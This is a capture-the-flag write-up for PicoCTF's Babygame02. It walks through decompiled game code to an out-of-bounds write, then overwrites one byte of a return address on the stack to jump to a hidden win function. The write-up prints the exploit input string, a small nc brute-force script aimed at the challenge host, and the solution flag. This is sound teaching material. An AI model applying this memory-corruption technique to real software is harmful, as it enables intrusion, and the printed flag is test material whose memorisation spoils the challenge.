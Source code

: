 PicoCTF Babygame02 Writeup: Like Babygame01, we are placed in a 30 x 90 grid
with a flag('X') placed on the bottom right corner. Upon reaching it, the
game exits, but we do not get the flag.

![Start of the game](images/babygameEnter.png)

Opening the game in ghidra we get the following decompiler output from main:

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  int local_aa8;
  int local_aa4;
  undefined local_a9d [2700];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  init_player(&local_aa8);
  init_map(local_a9d,&local_aa8);
  print_map(local_a9d,&local_aa8);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      local_11 = (char)iVar1;
      move_player(&local_aa8,(int)local_11,local_a9d);
      print_map(local_a9d,&local_aa8);
    } while (local_aa8 != 0x1d);
  } while (local_aa4 != 0x59);
  puts("You win!");
  return 0;
}
```


Like before, **local_a9d** is the map, player height is **local_aa8**, and width is **local_a9d** based on the while conditionals, but this time there is no win flag. The game just exits after you reach the 'X', how are we supposed to get the game to pring out the flag?

When looking at the symbol table, we see that win function is still there, it just isn't called by anything.

![Win function in symbol tree](images/ghidraWin.png)

Maybe cleaning up the decompiler output will give us more clues?

![image of player struct](images/playerStructGhidra.png)

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  playerStruct player;
  char map [2700];
  
  init_player(&player);
  init_map(map,&player);
  print_map(map,&player);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      move_player(&player,(int)(char)iVar1,map);
      print_map(map,&player);
    } while (player.height != 0x1d);
  } while (player.width != 0x59);
  puts("You win!");
  return 0;
}
```

Note to myself: retyping map from undefined[2700] to char[2700] removed the ecx stack
alignment stuff local_10 and also local_11? 

Now the code is cleaned up and pretty looking :)

Like before, the only thing we control is the input to move_player so lets see what this function lets us do.

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void move_player(playerStruct *player,char input,int map)

{
  int iVar1;
  
  if (input == 'l') {
    iVar1 = getchar();
    player_tile = (undefined)iVar1;
  }
  if (input == 'p') {
    solve_round(map,player);
  }
  *(undefined *)(player->height * 0x5a + map + player->width) = 0x2e;
  if (input == 'w') {
    player->height = player->height + -1;
  }
  else if (input == 's') {
    player->height = player->height + 1;
  }
  else if (input == 'a') {
    player->width = player->width + -1;
  }
  else if (input == 'd') {
    player->width = player->width + 1;
  }
  *(undefined *)(player->height * 0x5a + map + player->width) = player_tile;
  return;
}
```

It looks like the same as before, we are able to set our player's position to anything, and so we can overwrite memory outside of the map. We can also change
player_tile using 'l'. Does this mean we can arbitrarily change the memory to anything we want? Unfortunately we can not. After moving away from a tile, the game writes 0x2e to the the original position, so any value we set will get overwritten by dots one turn later. 

We need to call the win function, and we have the ability to overwrite an arbitrary amount of bytes with the value 0x2e, and one byte with a chosen value.
What can we do? The address of the win function is0x0804975d, but thats 4 bytes, and we only have one byte at our disposal. However, move_player is called at 0x08049704 and its return value is the address of the next instruction, 0x08049709. This is only one byte off from the address of win, so we only need to overwrite a single byte
 to return to win!

![Where move_player gets called from main, along with where it returns
to](images/movePlayerCall.png)

To find the position of the location of move_player's return address relative to
the map, we can use gdb. I've set a breakpoint at the very start of
move_player (before ebp is pushed) in order to examine its return value and arguments.

![finding addresses with gdb](images/gdbFindAddress.png)

At this state, esp contains the return address, esp + 0x4 contains the address
of the player struct (move_player's first argument), esp + 0x8 points to our input (0x77='w'),
and esp + 0xc is address of the beginning of the map struct. We want to change
the least significant byte of our return address from 0x09 to 0x5d, so we want
to write to 0xffffc24c (this is little endian, so the LSB is stored at the
base). Our map starts at 0xffffc273 (based on the third argument) so we want to
access map[0xffffc24c - 0xffffc273] = map[-39]. Of course, we want to be careful
not to write to other values on the stack that might cause the game to break.
One way we could do that is by setting our index to have the game access map[51]
and moving up so that the game will access map[51-90]=map[-39]. I will do this: 
set the player to 0x5d = ']' and move to (0, 0), than perform the following
sequence of moves:
```
's' map[90]
'a' * 39 map[90 - 39] = map[51]
'w' map[51 - 90] = map[-39]
```
Final command looks like this: 

`echo aaaawwwwl]saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaw | ./game`

On local machine:

![win function triggered](images/localOutput.png)

Unfortunately I get trolled on the challenge instance and it breaks before giving a flag :(
This is probably because the address of win is different so what I did was brute force the value of the last byte of win's address. Here's a little script I wrote to make brute forcing
easier.

```bash
#! /bin/sh

pwn () {
	echo "aaaawwwwl$1saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaw" | nc saturn.picoctf.net XXXXX > out; tail out
}
```

After like 5 attempts,

![Flag is given](images/pwn.png)


We get the flag picoCTF{gamer_jump1ng_4r0unD_0c5d2789}


